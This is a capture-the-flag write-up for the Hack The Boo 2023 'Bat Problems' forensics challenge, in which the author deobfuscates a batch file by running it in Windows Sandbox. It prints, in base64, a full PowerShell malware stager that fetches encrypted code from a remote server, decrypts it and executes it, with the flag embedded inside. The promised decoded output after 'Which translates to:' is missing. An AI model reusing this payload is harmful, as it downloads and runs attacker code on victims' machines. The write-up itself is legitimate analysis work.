

# [Hack The Boo 2023 - Practice](index.md) - Forensics - Bat Problems

> On a chilly Halloween night, the town of Hollowville was shrouded in a veil of mystery. The infamous "Haunted Hollow House", known for its supernatural tales, concealed a cryptic document. Whispers in the town suggested that the one who could solve its riddle would reveal a beacon of hope. As an investigator, your mission is to decipher the script's enigmatic sorcery, break the curse, and unveil the flag to become Hollowville's savior.

We are provided a batch file that is obfuscated.

```bat
...
set "xkcscoxdxe=ACUAMgA1ADYAXQB9AH0A"
set "vjcwqonetf=AEMAbwB1AG4AdABdACkA"
set "rbqecbginc=ACQAaQB2AD0AJABkAGEA"
set "uuhyczmmxe=AC0AagBvAGkAbgBbAEMA"
set "inyahuzxoo=AGMAawBvACcAOwAkAHMA"
set "epijlrhjmq=YgA0AHQAXwBmADEAbAAz"
set "tnksxiibte=aQBjAGUAUABvAGkAbgB0"
set "yeitcnwdjv=TgBlAHQALgBXAGUAYgBD"
set "dfbbguetbi=LgBDAHIAZQBkAGUAbgB0"
set "dfbkfcybvd=AEoAXQAsACQAUwBbACQA"
...
```

Lots of random variables are set, and then they are put back together at the end of the file:
```bat
%Xtnpsjntki%%Uvpjcsfkps%%llecwxirrv%%ipvgcrqunf%%jklvvznyoo%%unuxwliqbr%%klymlpbwwk%%dysfnbgmrs%%odqqbrqxgc%%talukgjglh%%tnksxiibte%%gnvquaaikl%%oxzuhafyty%%adoosmqieq%%jlzegvmqkh%%tkspqgfezg%%twtebvsaka%%zemewtnpgi%%yeitcnwdjv%%talwelwshg%%ztrqzcsghu%%ooerzyphxp%%xnsddewkjt%%abfcbernie%%freecdurxu%%qazgeuuryt%%rtkivjiqyi%%nltfuhtqsp%%ijtnxiydgk%%inyahuzxoo%%rkqopnuhak%%bnimzrairh%%arirjwuufe%%peaqqqzjhx%%pixeueaexo%%ymqktainir%%groykdejaf%%gdxqtuxjtg%%kkuvpmsxnx%%lhksbxgxno%%tirgstjpnp%%gldgpaqmdi%%dympkboccz%%sbcgacqtjz%%vmoothwjeg%%livcnxklbi%%mjugibbccj%%tpxihlfyyl%%btfeyoqgdd%%hbqmigzuyd%%zwqujbxyth%%primtbeqjb%%yxtvktkqbj%%nemzfezpoy%%vbrffrcyuk%%kcijfzedak%%iksmcfhnba%%cfsfpfaifn%%owdgfkrmmu%%hkihdroftw%%xmbiatjqzd%%dpbpdabswl%%dwoqpodpsx%%iyxnbwqwvj%%dfbbguetbi%%amedfzkpqa%%dmzvddozpq%%xrmnnquwgb%%bvqepppuph%%prqqperknc%%dtbpjnfqte%%aktiwqjlij%%mbruopeait%%slzbngdcxw%%rlfaegqlsg%%gggylivaaj%%crjpoyymri%%zctzhvkube%%jucgtcyjlz%%xoezfsghqq%%rbwcdidvor%%eubxycigil%%udtkpvpwlh%%dfwfymvxpv%%lwmpnyaakc%%qifiosnmwm%%rrqelfomcx%%cksjilhxsl%%vkxtpcsvkp%%iqoqanaaht%%wgyylpwodl%%ggrgkijhev%%jbdzflrwit%%pbervxlqvc%%kfknsjurus%%vjcwqonetf%%ankyzawudo%%tgznzidgdc%%ywpjosgjdg%%dfbkfcybvd%%iwnclvszmb%%rbltgxozsy%%pgssozxnkn%%kkqqmvlfek%%ncqfvygbex%%laamgfxxbt%%epijlrhjmq%%mpmxufelmw%%ezwgclnoht%%zxavotsvle%%mxtypxhupc%%pwojxvfdhy%%fwafmpmjol%%niyfborvvb%%tajqgeimkk%%tekuivufxk%%hxrxbmcrab%%sfrjcuonvm%%hfvvkjkppw%%xkcscoxdxe%%hzdehetswc%%qwfhawtkpd%%lrowavctaw%%uvbsyaoahv%%cvxqumcgfs%%tnjodalaim%%frcuonrsae%%yxqthvhhnc%%akmeqpqplz%%nnhkxernpw%%gchigjdpna%%vayhzkaoxh%%mtdhxnskxu%%rbqecbginc%%xkbtgjgsbm%%eejhicejye%%ljwlrzenef%%mtozbwhmdh%%fztuwvreiu%%uuhyczmmxe%%inghbxsuez%%ifeszkpyma%%rhieovvavv%%xynekerpsz%%gwhtilbklu%
```

A simple, but time consuming solution would be to manually find and replace all variables with their values. I decided that I was going to find or make a better way to handle these sorts of obfuscated batch files, since they tend to come up in CTF puzzles.

After struggling to find a decent one that worked, I decided to make one, since I am technically a software developer. 

Then, after struggling with antivirus eating the file before my program could process it, I decided that I could format and reload a laptop way faster, so I fired up Windows Sandbox, copied the batch file in, added an `echo` command before the big blob of variables at the end, and just ran the batch file. This was an _extremely dumb thing to do_, and I was fully prepared to wipe my OS and reinstall at the first sign of trouble - Windows Sandbox, or even a VM, might not be enough to protect the host system from the right malware.

```bat
echo %Xtnpsjntki%%Uvpjcsfkps%%llecwxirrv%%ipvgcrqunf%%jklvvznyoo%%unuxwliqbr%%klymlpbwwk%%dysfnbgmrs%%odqqbrqxgc%%talukgjglh%%tnksxiibte%%gnvquaaikl%%oxzuhafyty%%adoosmqieq%%jlzegvmqkh%%tkspqgfezg%%twtebvsaka%%zemewtnpgi%%yeitcnwdjv%%talwelwshg%%ztrqzcsghu%%ooerzyphxp%%xnsddewkjt%%abfcbernie%%freecdurxu%%qazgeuuryt%%rtkivjiqyi%%nltfuhtqsp%%ijtnxiydgk%%inyahuzxoo%%rkqopnuhak%%bnimzrairh%%arirjwuufe%%peaqqqzjhx%%pixeueaexo%%ymqktainir%%groykdejaf%%gdxqtuxjtg%%kkuvpmsxnx%%lhksbxgxno%%tirgstjpnp%%gldgpaqmdi%%dympkboccz%%sbcgacqtjz%%vmoothwjeg%
```

And I found the following base64 encoded payload:
```
SQBmACgAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUALgBQAFMAVgBlAHIAcwBpAG8AbgAuAE0AYQBqAG8AcgAgAC0AZwBlACAAMwApAHsAfQA7AFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoARQB4AHAAZQBjAHQAMQAwADAAQwBvAG4AdABpAG4AdQBlAD0AMAA7ACQAdwBjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHMAZQByAD0AJAAoAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAG4AaQBjAG8AZABlAC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAYQBBAEIAMABBAEgAUQBBAGMAQQBBADYAQQBDADgAQQBMAHcAQQAzAEEARABjAEEATABnAEEAMwBBAEQAUQBBAEwAZwBBAHgAQQBEAGsAQQBPAEEAQQB1AEEARABVAEEATQBnAEEANgBBAEQAZwBBAE0AQQBBADQAQQBEAE0AQQAnACkAKQApADsAJAB0AD0AJwAvAGwAbwBnAGkAbgAvAHAAcgBvAGMAZQBzAHMALgBwAGgAcAAnADsAJAB3AGMALgBIAGUAYQBkAGUAcgBzAC4AQQBkAGQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJAB3AGMALgBQAHIAbwB4AHkAPQBbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBSAGUAcQB1AGUAcwB0AF0AOgA6AEQAZQBmAGEAdQBsAHQAVwBlAGIAUAByAG8AeAB5ADsAJAB3AGMALgBQAHIAbwB4AHkALgBDAHIAZQBkAGUAbgB0AGkAYQBsAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAE4AZQB0AC4AQwByAGUAZABlAG4AdABpAGEAbABDAGEAYwBoAGUAXQA6ADoARABlAGYAYQB1AGwAdABOAGUAdAB3AG8AcgBrAEMAcgBlAGQAZQBuAHQAaQBhAGwAcwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJAB3AGMALgBQAHIAbwB4AHkAOwAkAEsAPQBbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAGUAdABCAHkAdABlAHMAKAAnAGsAJQBOAH4ALQB7ACEAUQBVADEASABxAGYAZABvAH0ARgBaAFkAaQA3ACMAQwBQADUAQgBFAD0AegAuADkAbAAnACkAOwAkAFIAPQB7ACQARAAsACQASwA9ACQAQQByAGcAcwA7ACQAUwA9ADAALgAuADIANQA1ADsAMAAuAC4AMgA1ADUAfAAlAHsAJABKAD0AKAAkAEoAKwAkAFMAWwAkAF8AXQArACQASwBbACQAXwAlACQASwAuAEMAbwB1AG4AdABdACkAJQAyADUANgA7ACQAUwBbACQAXwBdACwAJABTAFsAJABKAF0APQAkAFMAWwAkAEoAXQAsACQAUwBbACQAXwBdAH0AOwAkAEQAfAAlAHsAJABJAD0AKAAkAEkAKwAxACkAJQAyADUANgA7ACQAZgBsAGEAZwA9ACcASABUAEIAewAwAGIAZgB1AHMAYwA0AHQAMwBkAF8AYgA0AHQAXwBmADEAbAAzAHMAXwBjADQAbgBfAGIAMwBfADQAXwBtADMAcwBzAH0AJwA7ACQASAA9ACgAJABIACsAJABTAFsAJABJAF0AKQAlADIANQA2ADsAJABTAFsAJABJAF0ALAAkAFMAWwAkAEgAXQA9ACQAUwBbACQASABdACwAJABTAFsAJABJAF0AOwAkAF8ALQBiAHgAbwByACQAUwBbACgAJABTAFsAJABJAF0AKwAkAFMAWwAkAEgAXQApACUAMgA1ADYAXQB9AH0AOwAkAHcAYwAuAEgAZQBhAGQAZQByAHMALgBBAGQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAawBwAFAAeQBkAHIAegA9AEMAeABwAEsAcgBaAGMAdgBKADMAcQB3AFYAYQA1AEEAMwBrAFcAZwBGADcAUQB1AGoAMABzAD0AIgApADsAJABkAGEAdABhAD0AJAB3AGMALgBEAG8AdwBuAGwAbwBhAGQARABhAHQAYQAoACQAcwBlAHIAKwAkAHQAKQA7ACQAaQB2AD0AJABkAGEAdABhAFsAMAAuAC4AMwBdADsAJABkAGEAdABhAD0AJABkAGEAdABhAFsANAAuAC4AJABkAGEAdABhAC4AbABlAG4AZwB0AGgAXQA7AC0AagBvAGkAbgBbAEMAaABhAHIAWwBdAF0AKAAmACAAJABSACAAJABkAGEAdABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

Which translates to:


Which in addition to being malware(Trojan:Script/Wacatac.H!ml, according to Windows Defender), also happens to contain our flag:
```powershell
$flag='HTB{0bfusc4t3d_b4t_f1l3s_c4n_b3_4_m3ss}';
```

```
HTB{0bfusc4t3d_b4t_f1l3s_c4n_b3_4_m3ss}
```

They sure can, HTB, they sure can.